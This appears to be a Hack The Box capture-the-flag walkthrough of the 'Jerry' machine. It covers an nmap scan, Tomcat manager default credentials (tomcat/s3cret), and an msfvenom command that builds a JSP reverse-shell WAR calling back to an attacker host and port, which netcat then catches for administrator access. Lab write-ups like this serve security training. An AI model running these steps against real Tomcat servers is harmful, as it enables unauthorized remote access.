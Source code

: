 
# Machine Info




# Walkthrough

1. Nmap scan result in the found of Tomcat service Website running in 8080 port.
	- ┌─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $cat serviceScan.nmap 
		# Nmap 7.94SVN scan initiated Sat Jan 11 00:40:06 2025 as: nmap -sC -sV -p- -Pn --min-rate 5000 -oA serviceScan 10.10.10.95
		Nmap scan report for 10.10.10.95 (10.10.10.95)
		Host is up (0.22s latency).
		Not shown: 65534 filtered tcp ports (no-response)
		PORT     STATE SERVICE VERSION
		8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
		|_http-title: Apache Tomcat/7.0.88
		|_http-favicon: Apache Tomcat
		|_http-server-header: Apache-Coyote/1.1
		
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		# Nmap done at Sat Jan 11 00:41:00 2025 -- 1 IP address (1 host up) scanned in 53.90 seconds


2. Home page of the website:
	1. ![[Pasted image 20250221153014.png]]
	
3. When visiting the manager app, It ask for credential. Cancelling the login revel the credential:
	1. Username -> tomcat
	2. Password -> s3cret
	3. ![](HackTheBox-writeups/Assets/Pasted%20image%2020250225222748.png)

4. Landing page after loggin in:
	   ![[Pasted image 20250221171429.png]]

5. The page seem to be allowing the user to upload .war file. 
	1. ![[Pasted image 20250221171547.png]]

6. Then i generate a msfvenom .war file paylaod for reverse shell. and named it payload.war.
	- ┌─[✗]─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=8888 -f war -o payload.war
		Payload size: 1096 bytes
		Final size of war file: 1096 bytes
		Saved as: payload.war

7. The uploaded file seem to be appear in the main page table, where we can click and run.
	1. ![[Pasted image 20250221171827.png]]

8. Before executing the payload, I had already started my netcat server listening in the port 8888. And we got the connection after executing the payload. 
	![[Pasted image 20250221165413.png]]

9. The shell we got seem to have administrator authority (High authority).
	![[Pasted image 20250221165700.png]]

10. Then we found the flag in the flag directory in desktop of Administrator user.  
	

	![[Pasted image 20250221171038.png]]
	


